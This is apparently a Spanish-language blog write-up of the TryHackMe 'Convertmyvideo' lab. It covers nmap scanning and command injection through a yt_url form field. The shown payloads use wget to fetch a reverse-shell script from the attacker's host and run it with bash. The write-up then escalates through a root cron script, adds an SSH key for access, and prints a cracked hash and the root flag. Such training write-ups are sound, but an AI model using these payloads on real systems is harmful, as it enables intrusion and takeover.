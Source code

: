 ```yaml
---
layout: post
title:  "Convertmyvideo - TryHackMe"
date:   2021-05-27 2:18:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, linux, Tryhackme, Writeup, cron, ssh, command_injection, bonus]
---
```



{: .message}

Es una maquina linux que nos permite explotar una vulnerabilidad que se encuentra en el OWASP Top 10 (2017).

## Enumeración
### Nmap
*Puertos:*
* 22/tcp --> OpenSSH 7.6p1
* 80/tcp --> Apache httpd 2.4.29


```bash
nmap -p- --min-rate 5000 10.10.145.178 -oG Allport             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:01 EDT
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.33% done; ETC: 20:06 (0:03:46 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.09% done; ETC: 20:06 (0:03:43 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.92% done; ETC: 20:06 (0:03:24 remaining)
Warning: 10.10.145.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.145.178
Host is up (0.036s latency).
Not shown: 41212 filtered ports, 24321 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 266.37 seconds
```
*Escaneo mas exhaustivo:*
```sql 
nmap -sC -sV -Pn -p22,80 10.10.145.178 -oN Scan_Port     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:09 EDT
Nmap scan report for 10.10.145.178
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```


### Fuzzer

Luego de fuzzear di con un directorio que es admin:

![](/images_blog/img_convertmyvideo/Pastedimage20210416201737.png)

## PoC Inyección de comandos

Despues de un rato probando di con una inyección de comando en la parte donde se inserta la url

```bash
POST / HTTP/1.1
Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/


yt_url=|whoami;
```

![](/images_blog/img_convertmyvideo/Pastedimage20210416210230.png)

Podemos tambien visualizar la flag desde aqui (Para el espaciado utilizo Input Field Separators que es una variable de separador de campo de entradas):  

![](/images_blog/img_convertmyvideo/Pastedimage20210416211813.png)

Podemos visualizar el contenido que tiene admin:
![](/images_blog/img_convertmyvideo/Pastedimage20210416211957.png)

Algo que llama la atencion es el contenido que tiene .htpasswd

![](/images_blog/img_convertmyvideo/Pastedimage20210416212308.png)

```
"output":"itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y\/\n"
```

Con esto lo podremos crackear ```jesie```  y posteriormente entrar en el panel que nos aparece cuando entramos a /admin. En esta oportunidad iremos por otro vector.

## Shell Inicial

Primero haremos una reverse sencilla con bash y luego nos montamos un servidor con python:

```bash
POST / HTTP/1.1

Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/

yt_url=|wget${IFS}10.9.206.201:8000/rev.sh;
```

Luego ejecutamos la reverse:

```
POST / HTTP/1.1
Host: 10.10.145.178
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://10.10.145.178
Connection: close
Referer: http://10.10.145.178/

yt_url=|bash${IFS}rev.sh;
```


![](/images_blog/img_convertmyvideo/Pastedimage20210416213538.png)


```sql
rlwrap nc -lvnp 443                                  
listening on [any] 443 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.145.178] 42824
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

## PrivEsc

La  primera utilidad a utilizar es ```linpeas```  esta nos muestra lo mismo que sacamos con la inyección de comandos:

```
Reading /var/www/html/admin/.htpasswd                                        
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```


Un script interesante es clean.sh, la idea es basicamente agregar una reverse y esperar que sea ejecutada:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174646.png)

En esta imagen se confirma mi teoria que basicamente consiste en que ese script es ejecutado por root mediante una tarea cron:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174719.png)

```bash
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:~# 
```

MACHINE PWNED!!!!!

## Extra 

Esto no va con la resolución de la maquina pero me parece interesante el tema del local port forwarding que nos permite a nosotros visualizar servicios que solo puedan verse en la maquina de manera local (Este no es el caso pero suponiendo que nos encontremos mas adelante con esto).

Primero nos generamos un par de llaves con ssh-keygen:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180334.png)

Agregamos nuestra llave al authorized_keys:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180445.png)

Probamos que todo este correcto:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180621.png)

Con el siguiente comando le estamos diciendo que queremos que el puerto 80 de la maquina victima sea reflejado en el 8084 de nuestra maquina:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181139.png)

Asi lo podriamos visualizar:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181155.png)

En esta maquina pudimos explotar una inyección de comando y posteriormente abusar de una tarea cron.


